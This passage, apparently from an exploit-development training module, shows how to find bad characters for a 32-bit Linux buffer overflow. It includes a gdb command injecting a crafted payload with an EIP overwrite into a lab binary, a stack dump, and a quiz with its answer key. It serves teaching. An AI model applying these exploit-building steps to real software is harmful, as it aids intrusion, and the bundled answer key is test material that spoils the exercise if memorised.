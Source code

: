 Here it depends on our bytes' correct order in the variable `CHARS` to see if any character changes, interrupts, or skips the order. Now we recognize that after the "`\x08`", we encounter the "`\x00`" instead of the "`\x09`" as expected. This tells us that this character is not allowed here and must be removed accordingly.

##### Notes

Notes

```shell-session
# Substract the number of removed characters
Buffer = "\x55" * (1040 - 254 - 4) = 782	

# "\x00" & "\x09" removed: 256 - 2 = 254 bytes
 CHARS = "\x01\x02\x03\x04\x05\x06\x07\x08\x0a\x0b...<SNIP>...\xfd\xfe\xff" 
 
   EIP = "\x66" * 4
```

##### Send CHARS - Without "\\x00" & "\\x09"

Send CHARS - Without "\\x00" & "\\x09"

```shell-session
(gdb) run $(python -c 'print "\x55" * (1040 - 254 - 4) + "\x01\x02\x03\x04\x05\x06\x07\x08\x0a\x0b...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 254 - 4) + "\x01\x02\x03\x04\x05\x06\x07\x08\x0a\x0b...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
Breakpoint 1, 0x56555551 in bowfunc ()
```

#### The Stack

The Stack

```shell-session
(gdb) x/2000xb $esp+550

<SNIP>
0xffffd5ba:	0x55	0x55	0x55	0x55	0x55	0x01	0x02	0x03
0xffffd5c2:	0x04	0x05	0x06	0x07	0x08	0x00	0x0b	0x0c
												 # |----| <- "\x0a" expected

0xffffd5ca:	0x0d	0x0e	0x0f	0x10	0x11	0x12	0x13	0x14
<SNIP>
```

This process must be repeated until all characters that could interrupt the flow are removed.

#### Questions
1. Find all bad characters that change or interrupt our sent bytes' order and submit them as the answer \(eg., format: \\x00 \\x11\).
```
\x00\x09\x0a\x20
```
